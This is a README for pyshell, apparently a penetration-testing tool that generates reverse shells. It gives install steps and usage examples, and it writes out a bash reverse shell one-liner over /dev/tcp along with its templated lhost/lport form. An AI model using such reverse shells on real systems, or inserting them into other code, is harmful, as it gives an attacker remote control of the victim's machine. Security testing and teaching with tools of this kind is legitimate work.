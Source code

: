 # Manuel Installation
1. git clone https://github.com/whitecat1331/pyshell.git
2. cd pyshell
3. python -m venv env
4. source env/bin/activate
5. pip install -r requriements.txt
6. python pyshell.py --help
# Quick Installation
1. git clone https://github.com/whitecat1331/pyshell.git
2. cd pyshell
3. python -m venv env
4. source env/bin/activate
5. pip install .
6. pyshell --help
# Features
## Add new template shell or language
1. create your new reverse shell in the shells directory.
2. replace the ip in the scripts directory with {lhost} and then replace the port with {lport}
3. For example replace, bash -i >& /dev/tcp/127.0.0.1/8080 0>&1 with bash -i >& /dev/tcp/{lhost}/{lport} 0>&1
4. The new script will be displayed in the languages field from the help menu.
# Examples:
- python pyshell.py --help
- python pyshell.py -l bash -i 10.10.10.10 8081
- python pyshell.py -l python -I eth0 7111
![pyshell examples](./pyshell.png)
